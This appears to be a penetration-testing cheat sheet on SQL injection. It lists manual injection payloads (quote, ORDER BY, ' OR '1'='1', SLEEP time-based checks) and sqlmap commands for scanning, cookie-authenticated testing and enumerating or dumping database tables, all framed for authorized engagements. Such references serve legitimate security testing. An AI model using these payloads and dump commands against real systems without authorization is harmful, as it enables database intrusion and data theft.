 # SQL Injection — Deep Dive (Authorized targets only)

## Manual probes (non-destructive)
'          # look for SQL errors
ORDER BY 1 -- -
' OR '1'='1' -- -
1 AND SLEEP(3)  # time-based check

## sqlmap quick usage (safe defaults)
sqlmap -u "http://<IP>/item.php?id=1" --batch --random-agent --level=1 --risk=1 -p id -o

## Authenticated targets / cookies
sqlmap -u "http://<IP>/item.php?id=1" --cookie="PHPSESSID=..." --batch -p id

## DB enumeration (when permitted)
# sqlmap --dbs
# sqlmap -D <db> --tables
# sqlmap -D <db> -T <table> --columns
# sqlmap -D <db> -T <table> --dump --stop=10

## Notes
- Keep --risk and --level conservative unless approved to increase.
- Stop immediately on instability; notify stakeholders if required by RoE.

